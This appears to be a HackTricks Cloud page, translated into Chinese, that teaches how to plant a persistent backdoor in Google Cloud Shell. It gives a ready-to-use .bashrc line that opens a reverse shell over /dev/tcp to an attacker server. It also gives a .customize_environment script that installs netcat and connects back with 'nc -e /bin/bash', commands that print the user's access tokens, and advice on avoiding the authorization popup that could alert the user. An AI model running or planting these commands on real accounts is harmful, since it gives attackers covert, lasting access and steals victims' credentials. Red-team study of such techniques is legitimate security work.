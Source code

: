 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) 让您可以直接从浏览器访问云资源的命令行，无需任何相关费用。

您可以通过 **web console** 或运行 **`gcloud cloud-shell ssh`** 访问 Google 的 Cloud Shell。

此控制台对攻击者具有一些有趣的功能：

1. **任何有权访问 Google Cloud 的 Google 用户** 都可以访问一个完全认证的 Cloud Shell 实例（服务账户即使是组织的所有者也可以）。
2. 如果没有活动，该实例将 **至少保持其主目录 120 天**。
3. 组织 **无法监控** 该实例的活动。

这基本上意味着攻击者可以在用户的主目录中放置一个后门，只要用户每 120 天至少连接一次 GC Shell，该后门就会存活，并且攻击者每次运行时都会获得一个 shell，只需执行：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主文件夹中还有另一个文件叫做 **`.customize_environment`**，如果存在，将会在用户访问 **cloud shell** 时 **每次执行**（就像在前面的技术中一样）。只需插入之前的后门或类似以下的内容，以保持持久性，只要用户“频繁”使用 cloud shell：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
需要注意的是，**第一次执行需要身份验证的操作时**，用户的浏览器中会出现一个弹出授权窗口。必须接受此窗口才能运行命令。如果出现意外的弹出窗口，可能会引起怀疑，并可能危及所使用的持久性方法。
{% endhint %}

这是从云终端（作为攻击者）执行 `gcloud projects list` 时在浏览器用户会话中查看的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已主动使用云终端，则不会出现弹出窗口，您可以**通过以下方式收集用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接的建立方式

基本上，使用这3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST]（将使您添加您本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST]（将使您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET]（将告诉您google cloud shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)找到更多信息。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
